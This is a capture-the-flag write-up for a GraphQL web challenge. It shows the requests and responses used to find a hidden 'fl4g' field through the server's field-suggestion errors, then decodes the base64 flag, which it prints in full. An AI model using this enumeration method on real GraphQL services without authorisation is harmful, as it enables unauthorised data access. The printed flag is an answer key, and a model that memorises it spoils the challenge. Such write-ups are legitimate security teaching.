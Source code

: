 # Apollo:

## Introduction:
This is a web challenge, opening the link we were given shows us a page titled `Ugly Colors Palette`, with a group of collors changing.

## Deep in the challenge:
Opening the network tab under `Inspect` on the browser and reloading the page shows us that the website is sending post request to `http://web.ingehack.ingeniums.club:3000/api/96b97cfae94f1e5deeb3f086aa34f45e/graphql`
with the following request body:
```
query: "{ colors { name, hex } }"
```
From this request, the url we are sending to and the name of the challenge, we find that it's a `Apollo GraphQL` backend.

Trying to send our own requests using `postman` to the same url, with the following body: 
```
query: "{ flag  }"
```
we get the following response:
```
{
    "errors": [
        {
            "message": "Cannot query field \"flag\" on type \"Query\". Did you mean \"fl4g\"?",
            "locations": [
                {
                    "line": 1,
                    "column": 3
                }
            ],
            "extensions": {
                "code": "GRAPHQL_VALIDATION_FAILED"
            }
        }
    ]
}
```

and from its message, we know that the correct query should contain `fl4g`.
So, let's try the following query:
```
{"query":"{ fl4g { flag } }"}
```

and the response was again the same as the previous one, and changing it to :
```
{"query":"{ fl4g { fl4g } }"}
```
we get:
```
{
    "data": {
        "fl4g": [
            {
                "fl4g": "SW5nZUhhY2t7SV9zaDB1bGRfUzNjdXIzX015X0dyNHBoUWxfUzNydjNyXzopKSkpKX0="
            }
        ]
    }
}
```

So it's a `base64` encoded text, and decoding it give us the flag:
```
IngeHack{I_sh0uld_S3cur3_My_Gr4phQl_S3rv3r_:)))))}
```